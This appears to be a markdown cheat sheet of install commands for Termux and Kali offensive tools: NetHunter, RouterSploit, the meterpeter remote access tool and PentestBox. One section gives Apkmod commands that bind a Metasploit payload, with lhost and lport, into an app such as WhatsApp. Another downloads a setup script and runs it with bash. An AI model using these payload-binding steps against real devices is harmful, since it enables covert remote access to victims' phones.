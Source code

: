 ### Install nethunter
* [kali NetHunter](https://www.kali.org/docs/nethunter/installing-nethunter/?fbclid=IwAR3ghqFZmYRjh3sLw5WNzqegpTMIJ4nYAeWtZhdmjwMjo_ZPUx6yNHJ3o-I)
```
Installing NetHunter requires the following steps:
- Download a pre-built image or build your own image
- Put your device in developer mode
- Unlock your device
- Install TWRP
- Flash Magisk
- Android 9 and above: Format “data” and flash Universal DM-Verity & ForceEncrypt Disabler
- Install NetHunter
- Android 10 and above: Update NetHunter App from the NetHunter Store
- Run the NetHunter App to finish the installation
```
### Termux software install
* pkg update
* pkg upgrade
### Banner
```
"Want to add a custom banner to your Termux terminal?
Check out the Evil Eye script created by Bhai4You on GitHub. This script will install multiple packages like figlet, toilet, cow say, nano, ruby, local cat and use them to display the Evil Eye banner in Termux.
Follow these steps:
1) pkg install git -y
2) git clone https://github.com/Bhai4You/Termux-Banner
3) cd Termux-Banner
4) chmod +x *
5) bash requirement.sh
6) bash t-ban.sh
7) Type your banner name.
Perfect for tutorials and fun!
```
### routersploit on termux 
#### As you know routersploit on termux there are always problems i found the solution for routersploit on termux again
```
#!/bin/bash
echo "=================="
echo "Bash script for routersploit installation on termux"
echo "Keep your phone alive and try not to use it while installing"
echo "=================="
sleep 3
apt update -y && apt upgrade -y
apt install autoconf automake bison bzip2 clang cmake coreutils diffutils flex gawk git grep gzip libtool make patch perl sed silversearcher-ag tar wget pkg-config python clang libcrypt libffi git openssl libsodium -y
python -m pip install wheel
SODIUM_INSTALL=system pip install pynacl
git clone https://github.com/threat9/routersploit
mv routersploit $HOME/
pip install -r requirements.txt
pip install -r requirements-dev.txt
echo "Done!"
```
##
```
cd routersploit
apt install python-cryptography
apt install python-bcrypt
pip install -r requirements.txt
pip install colorama
pip3 install setuptools
export SODIUM_INSTALL=system
pip3 install --no-binary :all: pynacl
pip install routersploit
python rsf.py
```
* ![routerspolit](https://github.com/jumbokh/Network-class/blob/main/images/routerspolit.jpg)
####
#### Debug -- bcrypt
```
A possible workaround (for experts). Get source and apply the following patch:

--- a/src/_bcrypt/Cargo.toml
+++ b/src/_bcrypt/Cargo.toml
@@ -20,5 +20,5 @@
 crate-type = ["cdylib"]
 
 [profile.release]
-lto = "thin"
+#lto = "thin"
 overflow-checks = true
And then in the source directory

pip install .
```
##
```
cryptography is available as a Termux package named python-cryptography. bcrypt will soon become available as python-bcrypt.
==>
export CARGO_BUILD_TARGET=aarch64-linux-android && pip install cryptography
==> python-bcrypt
```
##
### codename: Zaratustra  -- Remote Access Tool v2.10.13
* https://github.com/r00t-3xp10it/meterpeter
* https://github.com/r00t-3xp10it/meterpeter/releases/tag/v2.10.13?fbclid=IwAR1x6fnvnOpvoSuBJd0hvIKGxzBs8tw9iFAwpMglOlohUaCBQnf5H48QHPc
#### Install on Linux
```
https://github.com/r00t-3xp10it/meterpeter/blob/master/README.md#attacker-machine-linux-kali
```
##
#### Bind apk metasploit
* https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh?fbclid=IwAR15wlxfGnVR-dPgHwpe2BaveBsTt7ZGKdJqRDR--VQUq9x0S5-o3GtJZEY
```
Bind Metasploit Payload With App In Termux
Install APKMOD:
cd $HOME
pkg install wget
wget https://raw.githubusercontent.com/....../master/setup.sh
bash setup.sh
apkmod
Command:
apkmod -b -i original.apk -o binded.apk lhost=yourLhostHere lport=yourLportHere
apkmod -b -i /sdcard/Whatsapp.apk -o mybindedapp.apk lhost=127.0.0.1 lport=4444
```
##
#### PentestBox
* https://github.com/B4rC0d/PentestBox.git
```
This Tool is a Collection of Penetration Testing and Information Gathering Tools For Termux 🔰
Description : This script Aio Web Hacking & Information Gathering Included Admin Panel & Robots File Scanner & Whois And more ... You can use on Termux , Linux(Kali Linux)
☢️ Feature :
    ~> Admin Page Finder
    ~> DNS Lookup
    ~> Robots Scanner
    ~> Find Shared DNS
    ~> Show HTTP Header
    ~> IP location Finder
    ~> Port Scan
    ~> Whois
    ~> decode (Hash Crack)
    ~> encode
🔴 Installation  :-
$  apt update && apt upgrade -y
$  apt install git -y
$  apt install python3 -y
$  apt install python3-pip -y
$  git clone https://github.com/B4rC0d/PentestBox.git 
$  cd PentestBox
$  pip3 install -r requirements.txt 
$  python3 PentestBox.py
```
